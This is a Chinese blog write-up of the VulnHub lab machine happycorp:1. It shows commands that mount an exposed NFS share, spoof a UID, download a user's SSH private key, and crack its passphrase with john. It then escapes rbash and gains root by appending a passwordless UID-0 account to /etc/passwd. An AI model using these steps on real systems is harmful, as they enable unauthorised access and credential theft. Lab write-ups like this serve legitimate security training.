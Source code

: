 ```yaml
---
layout: post
title:  "happycorp：1靶机游玩记录"
subtitle: 'happycorp：1靶机游玩记录'
date:   2019-07-22 18:00:00
tags: 靶机 靶场
description: '靶机 happycorp'
color: 'rgb(255,165,0)'
cover: 'https://i.loli.net/2019/07/22/5d358243eb11081011.png'
---
```


### happycorp：1靶机游玩记录

靶机说明下载地址：
https://www.vulnhub.com/entry/happycorp-1,296/

下载后解压执行happycorp_1.ovf复制虚拟机，自动会分配IP地址

扫描了一下靶机IP地址为：192.168.111.131 

使用nmap探测端口
![nmap.png](https://i.loli.net/2019/07/22/5d358175e5f4216022.png)

也可以用rpcinfo命令，rpcinfo 命令会向 RPC 服务器发出 RPC 调用，并显示结果

```
root@kali:~# rpcinfo -p 192.168.111.131
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp  38756  mountd
    100005    1   tcp  48565  mountd
    100005    2   udp  37335  mountd
    100005    2   tcp  37845  mountd
    100005    3   udp  57602  mountd
    100005    3   tcp  35557  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049
    100003    3   udp   2049  nfs
    100003    4   udp   2049  nfs
    100227    3   udp   2049
```

showmount -e 检索主机的文件夹
```
root@kali:~# showmount -e 192.168.111.131
Export list for 192.168.111.131:
/home/karl *

```
使用mount去挂载

```
mount -t nfs 192.168.111.131:/home/karl /ttt
```
![10.png](https://i.loli.net/2019/07/23/5d3665eb44c2a35740.png)
但ssh目录拒绝访问，可以伪造文件所有者的UID来欺骗NFS服务器  
新增一个uid为1001的用户来访问即可

```
echo "test:x:1001:1001::/home/test:/bin/sh" /etc/passwd
```
![11.png](https://i.loli.net/2019/07/23/5d3669a6226c280272.png)

也可以使用nfs利用工具[nfspy说明](https://github.com/bonsaiviking/NfSpy)  
使用nfspy去挂载文件


```
nfspy -o server=192.168.111.131:/home/karl,hide,allow_other,ro,intr /ttt

```
挂载成功，但是访问会报错

```
root@kali:/# cd ttt
bash: cd: ttt: Input/output error

```
卸载ttt

```
fusermount -u /ttt
```
查看nsf和portmap服务正常
![9.png](https://i.loli.net/2019/07/23/5d3662b1cc45361585.png)
查看log也未发现异常

使用nfspysh连接没有问题


```
root@kali:/# nfspysh -o server=192.168.111.131:/home/karl
nfspy@192.168.111.131:/home/karl:/> ls
/:
000600   1001   1001          28 2019-03-04 20:55:40 .lesshst
000777      0      0           9 2019-03-05 05:11:30 .bash_history
000755   1001   1001        4096 2019-03-05 05:15:14 .
000644   1001   1001         675 2019-03-04 16:09:13 .profile
000700   1001   1001        4096 2019-03-05 05:10:36 .ssh
000644   1001   1001        3538 2019-03-05 05:15:13 .bashrc
000755   1001   1001        4096 2019-03-05 05:15:14 ..
000644   1001   1001         220 2019-03-04 16:09:13 .bash_logout
#下载文件
nfspy@192.168.111.131:/home/karl:/> cd .ssh
nfspy@192.168.111.131:/home/karl:/.ssh> get id_rsa /temp
nfspy@192.168.111.131:/home/karl:/.ssh> get id_rsa.pub /temp	
nfspy@192.168.111.131:/home/karl:/.ssh> get user.txt /temp
nfspy@192.168.111.131:/home/karl:/.ssh> get authorized_keys /temp
```
![2.png](https://i.loli.net/2019/07/22/5d358244f34f272571.png)
可以看到第一个flag和账户名karl@happycorp  
既然拿到了私钥就尝试登录一下

```
ssh -i id_rsa karl@192.168.111.131
```
![3.png](https://i.loli.net/2019/07/22/5d3582444249282332.png)
发现报错，重新给个权限

```
chmod 600 id_rsa.pub
```
发现需要密码

使用john解密ssh私钥密码


```
#先将私钥转换成可破解的hash值
python /usr/share/john/ssh2john.py id_rsa > hash.txt
#使用john跑密码
john hash.txt
```
![4.png](https://i.loli.net/2019/07/22/5d358244de76c70724.png)
密码爆破出来是sheep

登录成功但发现是rbath
![5.png](https://i.loli.net/2019/07/22/5d3582443217395945.png)
使用交互式绕过
ssh -i id_rsa karl@192.168.111.131 -t /bin/sh

登录后查看权限、可执行命令等
![6.png](https://i.loli.net/2019/07/22/5d3582441ef0962646.png)
使用cp命令覆盖/etc/passwd以达到新增root用户

```
cp /etc/passwd passwd
echo "k::0:0:::/bin/bash" >> passwd
cp passwd /etc/passwd
```

使用k账户登录获取root权限
最后拿到第二个flag
![7.png](https://i.loli.net/2019/07/22/5d358243d7fa871804.png)
---
总结

1. nfs相关漏洞利用  
2. ssh私钥破解
3. rbash绕过
4. 利用系统可执行命令提权

通过对NFS的Share/Export进行控制来决定哪一台设备可以访问共享目录防止问题出现
